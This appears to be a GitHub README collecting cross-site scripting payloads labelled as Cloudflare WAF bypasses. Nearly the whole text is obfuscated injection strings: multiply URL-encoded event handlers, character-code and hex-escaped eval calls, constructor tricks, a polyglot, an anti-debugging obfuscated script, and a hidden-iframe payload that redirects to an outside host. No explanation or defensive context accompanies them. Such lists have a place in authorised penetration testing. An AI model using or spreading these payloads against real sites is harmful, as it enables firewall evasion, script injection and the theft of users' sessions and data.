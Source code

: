 # Awesome_XSS_Payloads

Content-Encoding: WAFBYPASS

# Cloudflare Bypass Payloads
"><input%252bTyPE%25253d"hxlxmj"%252bSTyLe%25253d"display%25253anone%25253b"%252bonfocus%25253d"this.style.display%25253d'block'%25253b%252bthis.onfocus%25253dnull%25253b"%252boNMoUseOVer%25253d"this['onmo'%25252b'useover']%25253dnull%25253beval(String.fromCharCode(99,111,110,102,105,114,109,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))%25253b"%252bAuToFOcus>

%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E
<sVG/oNLY%3d1/**/On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>
&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;
"><track/onerror='confirm`1`'>
"/><svg onauxclick=&#x63&#x6F&#x5C&#x75&#x30&#x30&#x36&#x65&#x66&#x69&#x72&#x6D(\\1\\)>
%3csvg/onload=window%5b"al"+"ert"%5d`1337`%3e

%3Cdiv%20id%3D%22load%22%3E%3C%2Fdiv%3E%3Cscript%3Evar%20i%20%3D%20document.createElement%28%27iframe%27%29%3B%20i.style.display%20%3D%20%27none%27%3B%20i.onload%20%3D%20function%28%29%20%7B%20i.contentWindow.location.href%20%3D%20%27%2F%2Fxss.today%27%3B%20%7D%3B%20document.getElementById%28%27load%27%29.appendChild%28i%29%3B%3C%2Fscript%3E

<vIdeO><sourCe onerror="['al\u0065'+'rt'][0]['\x63onstructor']['\x63onstructor']('return this')()[['al\u0065'+'rt'][0]]([String.fromCharCode(8238)+[!+[]+!+[]]+[![]+[]][+[]]])">
<video><source onerror="alert.constructor.constructor('return this')().alert('‏0f')">
<inpuT autofocus oNFocus="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
<div onpointerover="javascript:alert(document.domain)" style="width:100%;height:100vh;"></div>
<svg onload=(function(){let arr=[41,49,40,116,114,101,108,97].reverse().map(e=>String.fromCharCode(e));let func=new Function(...arr);func();})()>


<a href="#" id="uniqueLink">Click me</a> <script> (function() { var a = ['\x6F\x70\x65\x6E', '\x77\x72\x69\x74\x65', '\x63\x6C\x6F\x73\x65', '\x70\x72\x69\x6E\x74', '\x61\x6C\x65\x72\x74']; var b = ['@', 'h', 'x', 'l', 'x', 'm', 'j']; var c = ['B', '1', 'P', '4', '$', '$']; document.getElementById('uniqueLink').onclick = function() { var w = window[a[0]](); w.document[a[1]](b.join('')); w.document[a[2]](); w[a[3]](); window[a[4]](c.join('')); }; })(); </script>

<sCrIpT>(function(){var a=[97,108,101,114,116];var b=String.fromCharCode.apply(null,a);var c=[88,115,112,108,111,105,116];var d=String.fromCharCode.apply(null,c);window[b](d);})()</sCrIpT>

<DiV sTylE="WidTH:100&#37;;HeIgHt:100vH&#59;" oNpOINteROvEr="var _0x1abc=['\x63','\x6F','\x6E','\x73','\x74','\x72','\x75','\x63','\x74','\x6F','\x72'];var _0x2bcd=['\x61','\x6C','\x65','\x72','\x74','\x28','\x64','\x6F','\x63','\x75','\x6D','\x65','\x6E','\x74','\x2E','\x64','\x6F','\x6D','\x61','\x69','\x6E','\x29'];[][_0x1abc.join('')][_0x1abc.join('')](_0x2bcd.join(''))((97^0)===97?1:0);"></dIV>

<ScRiPt>function K(H,y){var J=Z();return K=function(W,F){W=W-0xf7;var C=J[W];return C;},K(H,y);}var X=K;(function(D,R){var j=K,E=D();while(!![]){try{var N=-parseInt(j(0x10d))/0x1*(parseInt(j(0x121))/0x2)+parseInt(j(0xff))/0x3*(-parseInt(j(0x109))/0x4)+parseInt(j(0x107))/0x5*(-parseInt(j(0xfb))/0x6)+-parseInt(j(0x123))/0x7+parseInt(j(0x10c))/0x8+-parseInt(j(0x114))/0x9*(parseInt(j(0xf9))/0xa)+parseInt(j(0x117))/0xb;if(N===R)break;else E['push'](E['shift']());}catch(b){E['push'](E['shift']());}}}(Z,0xab3e2));var F=(function(){var D=!![];return function(R,E){var N=D?function(){var V=K;if(E){var b=E[V(0x110)](R,arguments);return E=null,b;}}:function(){};return D=![],N;};}());(function(){F(this,function(){var q=K,D=new RegExp(q(0x100)+'\x5c(\x20*\x5c)'),R=new RegExp('\x5c+\x5c+\x20*(?:['+'a-zA-Z_$]['+q(0x10b)+q(0xf7),'i'),E=B(q(0x102));!D[q(0x105)](E+q(0x119))||!R[q(0x105)](E+q(0x101))?E('0'):B();})();}());var C=(function(){var D=!![];return function(R,E){var N=D?function(){var T=K;if(E){var b=E[T(0x110)](R,arguments);return E=null,b;}}:function(){};return D=![],N;};}()),O=C(this,function(){var Y=K,D;try{var R=Function(Y(0x111)+Y(0x104)+(Y(0xfd)+Y(0x112)+Y(0x10a)+'\x20)')+');');D=R();}catch(v){D=window;}var E=D[Y(0x11a)]=D[Y(0x11a)]||{},N=[Y(0xf8),Y(0x10f),'info',Y(0x103),'exception',Y(0x11e),Y(0x115)];for(var b=0x0;b<N[Y(0x11d)];b++){var u=C[Y(0x11c)+'r'][Y(0x116)][Y(0x113)](C),p=N[b],r=E[p]||u;u[Y(0x11f)]=C[Y(0x113)](C),u[Y(0x108)]=r[Y(0x108)][Y(0x113)](r),E[p]=u;}});function Z(){var c=['57030PFGzFi','@Pranshu','1683312aLeyKy','e)\x20{}','{}.constru','counter','24CEmLiN','function\x20*','input','init','error','nction()\x20','test','gger','5WVVOMT','toString','193184WAXOVY','rn\x20this\x22)(','0-9a-zA-Z_','6586776UznYBj','487hrRSck','call','warn','apply','return\x20(fu','ctor(\x22retu','bind','972FIJNKX','trace','prototype','40923894rrOnDT','stateObjec','chain','console','string','constructo','length','table','__proto__','debu','4766spQeUV','while\x20(tru','9792482CuCNtV','$]*)','log'];Z=function(){return c;};return Z();}O(),alert('Encoded\x20XS'+'S\x20Payload\x20'+X(0xfa));function B(D){function R(E){var n=K;if(typeof E===n(0x11b))return function(N){}['constructo'+'r'](n(0x122)+n(0xfc))[n(0x110)](n(0xfe));else(''+E/E)[n(0x11d)]!==0x1||E%0x14===0x0?function(){return!![];}[n(0x11c)+'r'](n(0x120)+n(0x106))[n(0x10e)]('action'):function(){return![];}['constructo'+'r'](n(0x120)+n(0x106))[n(0x110)](n(0x118)+'t');R(++E);}try{if(D)return R;else R(0x0);}catch(E){}}</sCrIpT>

<div style="width:100%;height:100vh;" onpointerover="[][decodeURIComponent('%63%6F%6E%73%74%72%75%63%74%6F%72')][decodeURIComponent('%63%6F%6E%73%74%72%75%63%74%6F%72')](decodeURIComponent('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%64%6F%6D%61%69%6E%29'))()"> </div>

<div onpointerover="ja&#x76;ascr&#x69;pt:eva&#x6C;(decodeURICompo&#110;ent(String.fromCharCode(97, 108, 101, 114, 116, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 100, 111, 109, 97, 105, 110, 41)))" style="width:100%;height:100vh;"></div>

jaVasCript:/*-/*`/*\`/*'/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//%0D%0A%0d%0a//%0D%0A%0d%0a//%0D%0A%0d%0a//%0D%0A%0d%0a//%0D%0A%252f%252a*/(/*%252f%252a*/*&#x252f;&#x252a;prompt(1)&#x252f;&#x253b;/**/;eval(atob('YWxlcnQoIkhpISIp'))//%0D%0A%0d%0a//%0D%0A%0d%0a//%0D%0A%0d%0a//%0D%0A%0d%0a//%0D%0A%0d%0a//%0D%0A%252f%252a*/)//

